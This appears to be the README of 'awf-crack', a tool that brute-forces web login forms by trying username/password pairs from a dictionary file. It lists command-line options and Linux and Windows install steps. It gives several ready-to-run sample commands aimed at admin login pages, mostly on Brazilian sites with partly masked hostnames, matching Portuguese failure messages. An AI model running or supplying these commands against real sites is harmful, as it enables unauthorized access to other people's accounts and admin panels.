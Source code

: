 # awf-crack
Auth Web Form Crack

```
Usage: awf-crack [options ...]
	-a [string]   signature of user-agent
	-d [file]     dictionary of keywords
	-u [string]   user field on tag name
	-k [string]   password field on tag name
	-h [string]   hidden field on tag name. Use \"
	-s [url]      URL from action form
	-e [string]   some string indicate error
	-n            don't process headers
	-v            verbose mode
	-c            enable cookies
	-g            force use GET

```

Example: ./awf-crack -d file_dic -u user_field -k key_field [-h hidden_fd=\"value\" ...] -s addr_action -e msgerror [-v]

## How to install in Linux

Execute the file install.sh

```
chmod +x install.sh
./install.sh
```

## How to install in Windows

Download CodeBlocks and compile the source code.

## How to

Samples of how to use:

```
awf-crack -d dic_sql.txt -u email -k senha -s http://www.xxxxx.16mb.com/login.php -e "Usuario nao encontrado" -n

awf-crack -d dic_sql.txt -u login -k senha -s http://www.yyyyyyy.com.br/admin/logar.php -e "senha invalido" -n

awf-crack -d dic_sql.txt -u login -k senha -s http://wwwwwww.com.br/newsletter/ -e "erro.php"

awf-crack -d dic_sql.txt -u login -k senha -h logar=\"1\" -s http://www.zzzzzz.com.br/admin/_login.php -e "senha invalido" -n

awf-crack -d dic_sql.txt -u login -k senha -s http://www.site.com.br/admin/verifica.php -e "ou senha inv"

./awf-crack -d dic_sql.txt -u usuario -k senha -s http://www.website.com.br/admin/valida.php -e "o registrada" -n

./awf-crack -d dic_sql.txt -u usuario -k senha -s http://www.domainhere.com.br/site/admin/login/lib/valida.php -e "o conferem" -n
```

## Dictionary file

Use need use one line for login and other for password. Don't use spaces or new lines. you can use hashtag for coments. Sample:

```
login1
senha1
login2
pass2
# This is a coment
login3
keyword3
```
